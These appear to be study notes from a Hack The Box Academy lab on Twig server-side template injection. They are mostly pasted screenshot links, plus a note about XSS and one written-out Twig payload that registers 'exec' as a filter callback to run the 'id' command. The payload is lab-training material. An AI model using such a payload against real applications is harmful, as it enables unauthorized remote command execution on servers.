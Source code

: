 **Note:** When we notice that the mathematical expressions we submit are evaluated, the application may be vulnerable to XSS as well.

Let us test the above statement by submitting an XSS payload inside curly brackets to this section's exercise target. The result of doing so can be seen in the image below.

![image](https://academy.hackthebox.com/storage/modules/145/img/twig8.png)

# Assessment

![[Pasted image 20231219114446.png]]
![[Pasted image 20231219114455.png]]

![[Pasted image 20231219114501.png]]

![[Pasted image 20231219114941.png]]

![[Pasted image 20231219114947.png]]

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

![[Pasted image 20231219115347.png]]

![[Pasted image 20231219115353.png]]